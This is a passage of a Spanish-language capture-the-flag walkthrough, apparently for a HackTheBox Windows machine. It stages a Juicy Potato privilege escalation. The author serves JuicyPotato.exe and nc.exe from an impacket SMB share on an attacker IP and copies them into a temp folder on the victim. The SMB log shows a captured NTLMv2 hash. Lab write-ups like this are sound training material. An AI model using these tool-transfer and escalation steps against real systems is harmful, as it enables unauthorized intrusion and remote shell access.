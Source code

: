 Vemos que tenemos el permiso `SeImpersonatePrivilege` habilitado, por lo que ya debemos estar pensando en **Juicy Potato**; asi que nos lo descargamos:

[Juicy Potato](https://github.com/ohpe/juicy-potato/releases)

Y lo pasamos a nuestro directorio de trabajo:

```bash
❯ cp /home/k4miyo/Descargas/Firefox/JuicyPotato.exe .
```

Así mismo, buscamos el archivo `nc.exe` en nuestra máquina y lo copiamos en nuestro directorio de trabajo:

```bash
❯ locate nc.exe
/usr/share/sqlninja/apps/nc.exe
❯ cp /usr/share/sqlninja/apps/nc.exe .
```

Ahora transferimos los archivos a la máquina víctima mediate un recurso compartido y en un directorio en donde tengamos permisos: `C:\Windows\Temp` y nos creamos el directorio `Privesc`:

```bash
❯ impacket-smbserver smbFolder $(pwd) -smb2support
Impacket v0.9.22 - Copyright 2020 SecureAuth Corporation

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
[*] Config file parsed
[*] Incoming connection (10.10.10.63,49679)
[*] AUTHENTICATE_MESSAGE (JEEVES\kohsuke,JEEVES)
[*] User JEEVES\kohsuke authenticated successfully
[*] kohsuke::JEEVES:aaaaaaaaaaaaaaaa:031bce5f76d7906c9b6a6dc84df5b549:010100000000000080430a58d8bed701ba69bc758a1c267f0000000001001000460048006f0056004e004a006100470003001000460048006f0056004e004a006100470002001000670068007a005700530041007a00530004001000670068007a005700530041007a0053000700080080430a58d8bed701060004000200000008003000300000000000000000000000003000009452c393bb1aa4a1dcf86e8b7bdc4e817dc77f66558d27ad6325a928dcbc47e70a001000000000000000000000000000000000000900200063006900660073002f00310030002e00310030002e00310034002e0032003400000000000000000000000000
[*] Connecting Share(1:IPC$)
[*] Connecting Share(2:smbFolder)
[*] Disconnecting Share(1:IPC$)
[*] Disconnecting Share(2:smbFolder)
[*] Closing down connection (10.10.10.63,49679)
[*] Remaining connections []
```

```bash
PS C:\Windows\Temp>mkdir Privesc


    Directory: C:\Windows\Temp


Mode                LastWriteTime         Length Name                                                                  
----                -------------         ------ ----                                                                  
d-----       10/11/2021   8:46 PM                Privesc                                                               


PS C:\Windows\Temp>cd Privesc
PS C:\Windows\Temp\Privesc>
PS C:\Windows\Temp\Privesc> copy \\10.10.14.24\smbFolder\JuicyPotato.exe JP.exe
PS C:\Windows\Temp\Privesc> copy \\10.10.14.24\smbFolder\nc.exe nc.exe
```